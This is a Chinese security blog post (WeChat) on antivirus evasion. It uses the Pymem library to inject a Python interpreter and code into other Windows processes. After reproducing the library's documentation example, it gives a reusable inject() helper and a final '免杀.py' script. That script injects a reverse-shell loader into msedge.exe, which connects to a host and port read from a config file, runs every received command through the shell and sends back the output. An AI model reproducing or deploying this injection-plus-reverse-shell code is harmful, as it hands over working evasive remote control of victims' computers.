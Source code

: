 #  写外挂时偶然想到的免杀思路

原创 EX  [ HB网络安全探究实验室 ](javascript:void\(0\);)

**HB网络安全探究实验室** ![]()

微信号 gh_db29c88c5c87

功能介绍 人生不为一事则长 欲成一事则短

____

___发表于_

收录于合集

#免杀 4 个

#黑客 12 个

#渗透测试 12 个

#网络安全 17 个

#脚本语言 4 个

  

源码：

H4ckBu7eer-EX/pymem_shellcodeloader: pymem加载shellcode到其他进程 (github.com)

  

* * *

各位大佬端午好！

最近在研究游戏逆向的时候，发现一个好玩的库——Pymem

> Pymem文档
>
> https://pymem.readthedocs.io/en/latest/index.html

  

* * *

多说不宜，咱开门见山。这个Pymem除了修改内存，还可以将python解释器以dll的形式注入到其他进程，进而在其他进程内执行shellcode

  

贴一段官网介绍：

![](https://gitee.com/fuli009/images/raw/master/public/20230624181225.png)

来看一段来自官方文档的代码，这段代码的使用 pymem 库来注入 Python 解释器和 Python shellcode 到 notepad.exe
进程中，注释很详细。

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # 导入pymem模块，这是一个Python内存操作库 from pymem import Pymem # 导入os模块，这是一个提供了丰富的操作系统相关功能的库 import os # 导入subprocess模块，这是一个用于产生子进程，连接到它们的输入/输出/错误管道，获取它们的返回码的库 import subprocess   
    # 使用subprocess.Popen启动记事本程序，并获取其进程对象 notepad = subprocess.Popen(['notepad.exe'])   
    # 使用Pymem模块连接到记事本程序 pm = Pymem('notepad.exe')   
    # 在记事本程序中注入Python解释器 pm.inject_python_interpreter()   
    # 获取当前目录下的pymem_injection.txt文件的绝对路径，并将路径中的反斜杠替换为双反斜杠 filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\")   
    # 定义要注入的Python代码，这段代码会在记事本程序中执行，它会打开一个文件，写入一些内容，然后关闭文件 shellcode = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath) # 将定义的Python代码注入到记事本程序中 pm.inject_python_shellcode(shellcode)  
     # 结束记事本程序 notepad.kill()

运行代码后会在pymem_injection.txt里写入pymem_injection。

那我们可以尝试用这种方式实现加载shellcode实现上线

  

* * *

正文：

先创建一个函数，用来指定shellcode和注入的进程

  *   *   *   *   *   * 

    
    
    def inject(shellcode,process):        prcs = subprocess.Popen([process])        pm = Pymem(process)        pm.inject_python_interpreter()        pm.inject_python_shellcode(shellcode)        prcs.kill()

然后写一段shellcode

  *   *   *   *   *   *   * 

    
    
    filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\") sc = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath)

看一下 **shellcode** 长什么样子（见程序输出），运行后已经将 **pymem_injection** 写入了

  

![](https://gitee.com/fuli009/images/raw/master/public/20230624181226.png)

好了让我们来看看免杀写出来是什么样子

* * *

* * *

免杀.py：

  *   *   *   *   *   *   * 

    
    
    from pymemloader import inject sc="""import subprocessimport socketwith open('cfg', 'r') as f:    sip = f.readline().strip()    sport = int(f.readline().strip())print(sip,sport)client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)client_socket.connect((sip, sport))while True:    recv_data = client_socket.recv(20480)    command=recv_data.decode('utf-8')    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)    send_data=result.stdout.decode('gbk')    client_socket.send(send_data.encode('utf-8'))""" #上面的loader可以用自己的pythonshellcodeloader #我这里用的是我的python小控https://github.com/H4ckBu7eer-EX/python_remote_CMD inject(sc,"msedge.exe")

done!

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

